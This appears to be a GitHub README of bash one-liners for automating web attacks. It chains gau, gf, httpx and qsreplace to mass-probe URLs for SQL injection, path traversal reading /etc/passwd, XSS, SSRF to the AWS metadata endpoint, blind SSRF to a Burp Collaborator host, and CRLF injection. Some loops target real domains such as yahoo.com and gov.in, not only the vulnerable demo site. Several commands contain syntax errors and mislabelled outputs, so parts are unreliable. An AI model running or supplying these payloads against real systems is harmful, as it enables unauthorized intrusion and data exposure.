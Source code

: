# WEBAPPLICATION-ATTACKS-SCRIPT
AUTOMATE WEB APPLICATION ATTACKS WITH SCRIPTS

**Error based sqli**

Target: http://TARGET.com/artists.php?artist=1

**Command:**
curl -sk "http://testphp.vulnweb.com/artists.php?artist=1" | grep -q "WHAT KIND for error for sql injection"

**Automation:**
gau -subs testphp.vulnweb.com | gf sqli | httpx | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) %"'
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "1'" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo " $(tput setaf 1)SQLI VULNERABLE $(tput setaf 3) {}"' 

**FULL automation:**
for sqli $(cat sqliyaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf sqli | httpx | qsrepalce "$sqli") ;do echo "$url" | xargs -I{} sh -c 'curl -sk "{}" 2>&1 | grep -q "mysql_fetch_array" && echo "Error based SQLI {}"' ;done 


**Time based:**
payload used: ' or sleep(5)#

Normal testing:
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1"
time curl -s -I "http://testphp.vulnweb.com/artists.php?artist=1 or sleep(10)#" 
 
 
**Automation:**
for sqli in $(cat sqlitime.txt) ;do for url in $(gau -subs yahoo.com) ;do  echo "$url" | qsreplace "$sqli"| parallel -j 10 'time curl -s -I "%"' ;print "timebase sqli without payload" ;echo "$url" | parallel -j 10 'time curl -s -I "%"' ;done ;done


**LFI:**

cat /payloads/pathtravers.txt | parallel -j 6 'curl -sk "http://testphp.vulnweb.com/showimage.php?file={}" 2>&1 | grep -q "root:x" && echo "VULN! LFI {}"'

for lfi in $(cat /payloads/pathtravers.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$lfi"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "root:x" && echo "LFI VULN! {}"' ; done ; done


**XSS:**

grep "?" | sort -u |  grep "=" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 1)XSS VULNERABLE $(tput setaf 3) %"'  --> automation

cat testparam.txt | parallel -j 5  echo "https://xss-game.appspot.com/level1/frame?{}" | qsreplace "<img src=x onerror=alert(1)>" | xargs -I % sh -c 'curl -sk "%"   2>&1 | grep -q "alert(1)" --color && echo " $(tput setaf 2)XSS VUL $(tput setaf 1 setab 7) %"'

for xss in $(cat /payloads/xss.txt ); do for  url  in $(gau -subs yahoo.com | gf lfi | qsreplace "$xss"); do echo "urls" | parallel  -j 10 'curl -s "{}" 2>&1 | grep -q "aler(1)" && echo "LFI VULN! {}"' ; done ; done

**SSRF:**
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**BLIND ssrf:**

gau -subs testphp.vulnweb.com | gf ssrf | qsreplace "http://burpcollaborator.net" | httpx -silent -proxy http://127.0.0.1:8080

subfinder -d yahoo.com -silent | httpx -silent -proxy http://127.0.0.1:8080 -H "Referer: http://burpcollaborator.net"




Command:

curl -sk "http://testphp.vulnweb.com/showimage.php?file=http://burpcollab.net" |httpx

**Automation:**
gau -subs testphp.vulnweb.com | grep "=" | httpx -silent | qsreplace "http://burpcollab.net" | xargs -I{} sh -c 'curl -sk "{}"

**FULL automation:**
for burpcoll $(cat burppayaload.txt) ;do for url in $(gau -subs targets.txt | grep "=" | gf ssrf | httpx | qsrepalce "$burpcoll") ;do echo "$url" | httpx -silent  ;done 

gau -subs gov.in | grep "=" | gf ssrf | httpx -silent | qsreplace "http://burpcollab.net" | parallel -j 30 curl -sk "{}"

**Blind SSRF by header:**
Target:
testphp.vulnweb.com

Command:
**FUll Automation:**
subfinder -d testphp.vulnweb.com -silent | httpx -H "Referer: http://burpcollab.net" 

**SSRF to access metadata**
Automation;
gau -subs testphp.vulnweb.com | grep "=" | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I% sh -c 'curl -sk "%" 2>&1 | grep "compute.internal" && echo " ssrf aws metadata %"'

**CRLF**
for crlf in $(cat crlfpayload.txt); do for url in $(gautest.com | grep "=" | qsreplace "$crlf"); do echo $url| xargs -I@ sh -c 'curl -sk -I "@" 2>&1 | grep -q "Set-Cookie:%20test=test" && echo "CRLF VUL @"' ;done ;done
